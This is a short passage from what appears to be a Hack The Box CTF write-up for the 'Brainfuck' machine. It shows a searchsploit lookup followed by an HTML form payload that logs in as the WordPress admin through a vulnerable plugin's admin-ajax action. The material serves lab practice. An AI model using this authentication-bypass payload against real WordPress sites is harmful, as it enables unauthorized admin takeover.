```
searchsploit -x php/webapps/41006.txt 
```

![](Brainfuck.assets/image-20210424060023915.png)

### Privilege Escalation to admin on wordpress

Using the users enumerated from wpscan, this attack can be performed.
The payload was modified as show below.

![](Brainfuck.assets/image-20210424063910309.png)

```html
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="admin">
        <input type="hidden" name="email" value="orestis@brainfuck.htb">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>
```
